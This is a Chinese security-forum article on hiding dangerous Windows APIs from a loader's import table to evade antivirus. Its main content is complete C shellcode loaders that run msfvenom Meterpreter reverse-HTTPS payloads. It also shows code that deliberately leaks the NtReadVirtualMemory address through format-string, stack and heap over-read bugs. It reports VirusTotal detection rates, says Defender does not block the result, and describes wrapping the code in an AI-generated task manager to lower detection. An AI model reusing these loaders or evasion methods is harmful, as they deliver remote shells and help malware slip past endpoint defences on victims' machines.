# 利用NtReadVirtualMemory实现IAT中规避高危API-先知社区

> **来源**: https://xz.aliyun.com/news/18536  
> **文章ID**: 18536

---

# 前世

## Win32 API

Win32 API实现最简单的Shellcode Loader如下，代码中包含注释，可以看到每条语句的含义

```
#include <windows.h>
#include <stdio.h>

// msfvenom -p windows/meterpreter/reverse_https lhost=xxx lport=xxx -f c
unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52"
...
"\x30\x2e\x32\x00\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

int main()
{
    // 分配内存
    LPVOID allocatedMemory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (allocatedMemory == NULL) {
        printf("[-] VirtualAlloc failed. Error: %d
", GetLastError());
        return -1;
    }

    // 拷贝内存
    CopyMemory(allocatedMemory, shellcode, sizeof(shellcode));

    // 修改内存属性
    DWORD oldProtect;
    if (!VirtualProtect(allocatedMemory, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("[-] VirtualProtect failed. Error: %d
", GetLastError());
        return -1;
    }

    // 创建线程执行
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("[-] CreateThread failed. Error: %d
", GetLastError());
        return -1;
    }

    // 等待线程完成
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

    return 0;
}
```

上述代码编译执行后，Meterpreter可成功收到反连，如下图



通过[PE-bear](https://github.com/hasherezade/pe-bear)查看，可以看到IAT中存在之前用到的几个Win32 API，如下图



## LoadLibrary、GetProcAddress

然后进化出通过LoadLibrary、GetProcAddress实现的动态API调用，代码中包含注释，可以看到每条语句的含义

```
#include <Windows.h>
#include <stdio.h>

// msfvenom -p windows/meterpreter/reverse_https lhost=xxx lport=xxx -f c
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52"
...
"\x30\x2e\x32\x00\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

int main()
{
    // 载入kernel32.dll
    HMODULE hKernel32 = LoadLibraryA("kernel32.dll");
    if (!hKernel32) {
        printf("LoadLibraryA failed. Error: %d", GetLastError());
        return -1;
    }
    
    // 声明一个函数指针，指定调用约定、参数、返回值符合VirtualAlloc的原型
    LPVOID (WINAPI *pVirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD) = (LPVOID (WINAPI*)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(hKernel32, "VirtualAlloc");

    // 声明一个函数指针，指定调用约定、参数、返回值符合RtlMoveMemory的原型
    VOID (WINAPI *pRtlMoveMemory)(VOID UNALIGNED*, const VOID UNALIGNED*, SIZE_T) = (VOID (WINAPI*)(VOID UNALIGNED*, const VOID UNALIGNED*, SIZE_T))GetProcAddress(hKernel32, "RtlMoveMemory");

    // 声明一个函数指针，指定调用约定、参数、返回值符合VirtualProtect的原型
    BOOL (WINAPI *pVirtualProtect)(LPVOID, SIZE_T, DWORD, PDWORD) = (BOOL (WINAPI*)(LPVOID, SIZE_T, DWORD, PDWORD))GetProcAddress(hKernel32, "VirtualProtect");

    // 声明一个函数指针，指定调用约定、参数、返回值符合CreateThread的原型
    HANDLE (WINAPI *pCreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD) =
        (HANDLE (WINAPI*)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD))GetProcAddress(hKernel32, "CreateThread");

    // 声明一个函数指针，指定调用约定、参数、返回值符合WaitForSingleObject的原型
    DWORD (WINAPI *pWaitForSingleObject)(HANDLE, DWORD) = (DWORD (WINAPI*)(HANDLE, DWORD))GetProcAddress(hKernel32, "WaitForSingleObject");

    // 声明一个函数指针，指定调用约定、参数、返回值符合CloseHandle的原型
    BOOL (WINAPI *pCloseHandle)(HANDLE) = (BOOL (WINAPI*)(HANDLE))GetProcAddress(hKernel32, "CloseHandle");

  // 如果哪一个句柄值为false，表示获取失败，程序退出
    if (!pVirtualAlloc || !pRtlMoveMemory || !pVirtualProtect || !pCreateThread || !pWaitForSingleObject || !pCloseHandle) {
        printf("GetProcAddress failed. Error: %d", GetLastError);
        return -1;
    }

    // 分配内存
    LPVOID allocatedMemory = pVirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 拷贝内存
    pRtlMoveMemory(allocatedMemory, buf, sizeof(buf));

    // 修改内存属性
    DWORD oldProtect;
    if (!pVirtualProtect(allocatedMemory, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("VirtualProtect failed. Error: %d", GetLastError);
        return -1;
    }

    // 创建线程执行内存
    HANDLE hThread = pCreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("CreateThread failed. Error: %d", GetLastError);
        return -1;
    }

    // 等待线程完成
    pWaitForSingleObject(hThread, INFINITE);
    pCloseHandle(hThread);
}
```

上述代码编译执行后，Meterpreter可成功收到反连，如下图



通过[PE-bear](https://github.com/hasherezade/pe-bear)查看，可以看到IAT中不再有之前的几个Win32 API，仅有LoadLibrary、GetProcAddress，如下图



再进化后，当今动态获取函数地址主流的方式是查询PEB和EAT，这样在IAT中连GetModuleHandle、GetProcAddress也不会出现，甚至还可以遍历内存，通过特征匹配定位函数，进而动态获取函数地址，不过今天要分享的是一个好玩的东西，通过故意泄露内存地址，然后通过NtReadVirtualMemory读取内存来获取函数地址

# 今生

## resolve.c

首先我们有这样一个工具[resolve.c](https://github.com/ybdt/evasion-hub/blob/master/01-函数地址定位/恶意软件高级技术之利用NtReadVirtualMemory实现IAT中规避高危API/resolve.c)，传入NtReadVirtualMemory的地址、DLL名称、函数名称后，可以计算出函数地址

代码比较多我就不贴出来了，基本原理是通过Native API解析PE及PEB，进而获取DLL基址和函数地址，展开讲的话内容比较多，由于不是本篇文章的重点，先不去细究

VS2022下编译后，用法如下图



接下来的问题是如何获得NtReadVirtualMemory的地址

## 方式1 直接输出

```
#include <windows.h>
#include <stdio.h>

int main() {
    HMODULE hNtdll = LoadLibraryA("ntdll.dll");
    
    FARPROC pNtReadVirtualMemory = GetProcAddress(hNtdll, "NtReadVirtualMemory");
    
    printf("[+] NtReadVirtualMemory address: \t0x%p
", pNtReadVirtualMemory);
    
    return 0;
}
```

编译后执行如下



将Leak-1.exe传到VT上，可以看到是11/72的检测率



上面的代码太少了，很容易被检测，我们用AI生成一个C++实现的200行的任务管理器，并将上面的代码插入其中，当输入我们自定义的z时，会输出NtReadVirtualMemory的地址



将Leak-2.exe传到VT上，可以看到是5/72的检测率，检测率降低了将近一半



尝试用AI生成别的程序，包括涉及进程管理的控制台任务管理器、涉及文件操作的控制台学生成绩管理系统、甚至不涉及进程管理和文件操作的数学运算、C语言版本、C++版本、加上元数据，传到VT上后，至少会有2个杀毒引擎检测到，实在无奈

不过，尽管VT上显示Microsoft将其标识为恶意的，但在本地Defender中，并不会查杀



## 方式2 格式化字符串漏洞

下述代码是一个典型的格式化字符串漏洞，使用sprintf将格式化数据写入input时，由于没有指定变量，所以会随机打印栈上的值，其中就包括上面定义的leakme1的值，也就造成了内存地址泄露

```
#include <windows.h>
#include <stdio.h>

int main() {
   HMODULE hNtdll = LoadLibraryA("ntdll.dll");
   FARPROC pNtReadVirtualMemory = GetProcAddress(hNtdll, "NtReadVirtualMemory");
   
   long long leakme1 = (long long) pNtReadVirtualMemory;
   char input[100];
   sprintf(input, "%p %p %p %p
");
   printf(input);
   
   return 0;
}
```

如果直接在VS2022中编译，默认会带有各种优化，导致不能触发格式化字符串漏洞，需要使用如下命令编译

```
cl FormatStringLeak.cpp /Od /Zi /RTC1
```

执行后可以看到，输出的四个地址中，有一个是NtReadVirtualMemory的地址



## 方式3 栈越界读

下述代码原理和上面有点类似，字符数组buffer只有8字节，在栈上越界读，可以读到保存NtReadVirtualMemory地址的变量，之所以选择ptr[23]-ptr[16]，是经过测试发现，这几个字节保存的是NtReadVirtualMemory地址

```
#include <windows.h>
#include <stdio.h>

int main() {
   HMODULE hNtdll = LoadLibraryA("ntdll.dll");
   FARPROC pNtReadVirtualMemory = GetProcAddress(hNtdll, "NtReadVirtualMemory");
   
   char buffer[8] = "leak";
   long long leakme1 = (long long) pNtReadVirtualMemory;
   unsigned char *ptr = (unsigned char *)buffer;
   
   for (int i = 23; i >= 16; i--) {
       printf("%02X", ptr[i]); 
   }
   
   return 0;
}
```

使用如下命令编译

```
cl StackOverRead.cpp /Od /Zi /RTC1
```

执行后可以看到，成功输出的地址



## 方式4 堆越界读

下述代码原理和上面的栈越界读基本一致

```
#include <windows.h>
#include <stdio.h>

int main() {
   HMODULE hNtdll = LoadLibraryA("ntdll.dll");
   FARPROC pNtReadVirtualMemory = GetProcAddress(hNtdll, "NtReadVirtualMemory");
   
   char *buffer = (char *)malloc(32);
   strcpy(buffer, "leak");
   uintptr_t *leakme1 = (uintptr_t *)(buffer + 16);
   *leakme1 = (uintptr_t)pNtReadVirtualMemory;
   
   for (int i = 23; i >= 16; i--) { printf("%02X", (unsigned char)buffer[i]); }
   
   return 0;
}
```

使用如下命令编译

```
cl HeapOverRead.cpp /Od /Zi /RTC1
```

编译后执行，可以看到，成功输出了NtReadVirtualMemory的地址



上述代码，结合AI生成的代码，执行后如下图



在Defender下测试，不会被拦截



# 最后

把输出的函数地址和resolve相结合，可以成功获取到NTAPI的地址

